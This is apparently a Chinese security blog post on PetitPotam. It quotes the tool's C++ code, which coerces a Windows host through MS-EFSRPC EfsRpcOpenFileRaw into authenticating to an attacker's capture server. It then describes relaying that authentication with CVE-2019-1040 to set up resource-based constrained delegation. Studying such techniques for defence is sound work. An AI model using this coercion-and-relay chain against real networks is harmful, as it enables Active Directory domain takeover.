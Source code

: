 ```yaml
---
title: 触发主机强制认证的新方式--MS-EFSRPC
tags: 域渗透
---
```


https://github.com/topotam/PetitPotam

收到GitHub推送看到了一个新工具可以触发Windows认证，

通过MS-EFSRPC协议的`EfsRpcOpenFileRaw`函数

查看源代码

```c++
int wmain(int argc, wchar_t** argv, wchar_t** envp)
{
	wprintf(L"Usage: PetitPotam.exe <captureServerIP> <targetServerIP> \n");
	handle_t ht = Bind(argv[2]);
	HRESULT hr = NULL;
	PEXIMPORT_CONTEXT_HANDLE plop;
	SecureZeroMemory((char*)&(plop), sizeof(plop));
	wchar_t buffer[100];
	swprintf(buffer, 100, L"\\\\%s\\test\\topotam.exe", argv[1]);
	 
	long flag = 0;

	hr = EfsRpcOpenFileRaw(ht, &plop, buffer, flag);

	if (hr == ERROR_BAD_NETPATH) {
		wprintf(L"Attack success!!!\n");
	}
				
	return 0;
}
```

第四行向目标机器RPC进行认证返回句柄，然后构造参数后直接调用`EfsRpcOpenFileRaw`这个API



老样子，认证还是SMB，是带签名的，可以配合CVE-2019-1040进行relay操作

![image-20210719144149900](https://images-1258433570.cos.ap-beijing.myqcloud.com/images/20210719144151.png)

然后中继机器收到请求

![image-20210719144233037](https://images-1258433570.cos.ap-beijing.myqcloud.com/images/20210719144241.png)

成功配置了RBCD